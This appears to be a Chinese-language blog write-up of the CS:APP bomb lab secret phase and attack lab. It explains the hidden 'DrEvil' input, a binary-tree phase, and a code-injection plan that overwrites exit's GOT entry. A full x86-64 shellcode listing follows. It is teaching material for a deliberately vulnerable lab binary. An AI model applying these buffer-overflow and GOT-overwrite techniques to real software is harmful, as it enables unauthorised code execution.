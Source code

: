 ![image-20210206221918723](https://i.loli.net/2021/02/06/PDzu4GfMYolHEcy.png)

接下来通过gdb调试发现到这处关键逻辑之前有一个sscanf，输入是0 0，而其后还可以跟一个字符串。因此就是在此处输入DrEvil，而我们输入0 0的地方只有第四关，所以在第四关时输入0 0 DrEvil就可以进入隐藏关。

![image-20210206222330249](https://i.loli.net/2021/02/06/etWaysNQv2u6zg9.png)

第七关是一棵二叉树，大概是这样的。

                        24
              8                      32
        6         16           2d           6b
     1     7   14    23    28      2f    63     3e9

向左走的话返回值为2\*x，向右走的话返回值为2\*x+1，而叶子节点返回0。因此要得到目标的2就必须(0\*2\*2+1)*2，也就是左右左即可，得到答案0x14。

#### 3.attack lab

看到群里dalao说2个都可以一穿多就直接按这个目标来做了。核心思路是避免在touch之后就exit可以改掉got表中的exit。

第一个代码注入需要利用一个pop rdi的gadget和getbuf配合来向mmap出来的内存中写入shellcode。

shellcode如下：

```asm
mov rax, 0x006040E8
mov dword [rax], 0x5558601a
mov rax, 0x00604AA0
mov dword [rax], 0x00000000
mov rax, 0x00604AA0
cmp dword [rax], 0x01
je Label1
cmp dword [rax], 0x02
je Label2
mov rdx, 0x00604AA0
inc dword [rdx]
mov rax, 0x004017C0
jmp rax
Label1:
mov rdi, 0x59B997FA
mov rdx, 0x00604AA0
inc dword [rdx]
mov rax, 0x004017EC
jmp rax
Label2:
mov rax, 0x00604AB0
mov dword [rax], 0x39623935
add rax,4
mov dword [rax], 0x61663739
mov rax, 0x006040E8
mov dword [rax], 0x00400E46
mov rdi,0x00604AB0
mov rax, 0x004018FA
jmp rax
```
